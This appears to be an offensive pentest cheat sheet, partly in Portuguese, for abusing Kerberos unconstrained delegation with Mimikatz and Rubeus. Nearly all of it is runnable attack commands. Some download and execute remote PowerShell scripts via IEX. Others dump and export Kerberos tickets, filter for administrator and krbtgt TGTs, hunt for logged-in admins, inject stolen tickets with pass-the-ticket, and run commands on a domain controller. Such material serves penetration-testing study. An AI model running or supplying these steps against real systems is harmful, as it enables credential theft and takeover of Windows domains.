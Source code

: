 ```
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
```
##### UNCONSTRAINED DELEGATION MIMIKATZ - LISTAR OS TICKETS / EXPORTAR OS TICKETS COM MIMIKATZ (WAIT OR TRICK AN USER TO USE THE UNCONSTRAINED DELEGATION SERVICE)
```
sekurlsa::tickets
sekurlsa::tickets /export
```
```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
FILTRAR TICKETS TGT E ADMINISTRADOR
```
ls | select name
ls | select name | findstr /I tgt | findstr /I administrator
```
##### UNCONSTRAINED DELEGATION MIMIKATZ - VERIFICAR QUEM ESTÁ LOGADO EM UMA MÁQUINA / ONDE UM USUARIO ESTÁ LOGADO
AGUARDAR ALGUM USUARIO SE CONECTAR E FICAR MONITORANDO (OPTIONAL) (PRECISA DE ALGUM TIPO DE ADMIN)
```
Invoke-UserHunter -ComputerName server01  -Delay 5 -Verbose
Invoke-UserHunter -ComputerName server01 -UserIdentity administrator -Delay 5 -Verbose
```
##### UNCONSTRAINED DELEGATION MIMIKATZ - REUTILIZAR O TICKET DO USUARIO:  (VAI IMPORTAR NO CONTEXTO DO USUARIO, INICIAR NOVO MIMKATZ COM USUARIO NORMAL E IMPORTAR)
```
dir *.kirbi | findstr /I krbtgt | findstr /V "$@"
```
```
kerberos::ptt C:\pentest\tickets\[0;9fc25]-2-0-60a10000-Administrator@krbtgt-TECH.LOCAL.kirbi
```
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\student209\[0;15d1a5]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```
TESTAR A CONEXÃO E VERIFICAR QUEM EU SOU REMOTAMENTE
```
Invoke-Command -Scriptblock{whoami;hostname} -computername dcorp-dc
```


## UNCONSTRAINED DELEGATION - RUBEUS
Unconstrained delegation is a privilege that can be assigned to users or computers, this almost always happens on computers with services such as ISS and MSSQL. These services usually require access to a backend database on behalf of the authenticated user. When a user authenticates on a computer with Kerberos unrestricted delegation privilege enabled, the user's authenticated TGT ticket is stored in that computer's memory. If you have administrator access to this server, it is possible to dump all TGT tickets from memory.
##### UNCONSTRAINED DELEGATION RUBEUS - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/rubeus/Rubeus.exe -Outfile rubeus.exe
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Rubeus.ps1")
```
